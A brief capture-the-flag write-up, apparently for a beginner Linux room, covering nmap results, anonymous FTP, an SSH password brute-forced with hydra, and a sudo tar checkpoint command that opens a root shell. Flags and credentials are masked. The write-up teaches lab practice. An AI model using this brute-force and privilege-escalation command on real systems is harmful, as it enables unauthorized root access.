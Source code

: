 # Easy room to practice basic enumeration and privilege escalation in linux

## Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
## FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

## Found login and password to ssh using hydra

```
user: ***
password: *******************

```
### Found flag1 on the User's Desktop: `THM{*****_*********}`

## Using sudo -l found that user can run tar as sudo 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
opens a shell as root 

### Found flag2 under the root's Desktop **/root/root.txt** :`THM{******_******}`
